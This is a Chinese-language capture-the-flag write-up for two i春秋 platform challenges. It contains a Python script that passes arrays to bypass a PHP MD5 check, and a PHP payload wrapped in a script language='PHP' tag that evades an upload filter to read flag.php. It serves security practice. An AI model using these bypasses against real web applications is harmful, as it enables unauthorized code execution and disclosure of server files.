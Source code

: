 # i春秋平台CTF练习writeup

## 0x001 爆破-3

> 分值：10分 类型：MiscWeb 题目名称：爆破-3  
题目内容：
这个真的是爆破。

打开网页发现是源码审计，观察发现如果参数正确会将下一次要输入的参数输出在网页顶部，通过传**数组**可以绕过MD5检测：

```php
 <?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

Python 代码如下：

```Python
import requests

s = requests.session()

r = s.get("http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=ea");

for i in range(9):
    url = "http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=" + r.text[0:2]
    r = s.get(url)
    print(r.text[0:200])
```

在最后一次输出的内容里即包含flag

> p.s. 看了别人的 writeup， 使用的是 `r.content[0:2]`, 自己测试无效，最后发现还是 Python 版本的锅，在Python3 中 `r.content` 是 byte 类型，不能直接拼接字符串，而且转化成字符串后会有 `b'xxx'`的前缀，因此使用了 `r.text[0:2]`

## 0x002 Upload

> 分值：50分 类型：Web 题目名称：Upload  
题目内容：想怎么传就怎么传，就是这么任性。  
tips:flag在flag.php中 

**重点**：

```html
<script language="php">
    strtolower($str);
</script>
<!-- 绕过过滤的一种方法 -->

```

上传题，可以上传任意类型的文件，并且打开，于是尝试上传一段PHP代码

首先尝试：

```php
<?php
show_source('../flag.php');
```

返回内容为：

    show_source('../flag.'); 

发现 `<?php` 和 `php` 字样被过滤掉了，尝试使用大写 `PHP` 发现没有被过滤，但是 `<?` 还是被过滤了，查找资料后了解到一种方法：

```php
<script language='PHP'>
show_source('../flag.'.strtolower("PHP"));
</script>
```

上传成功获得flag
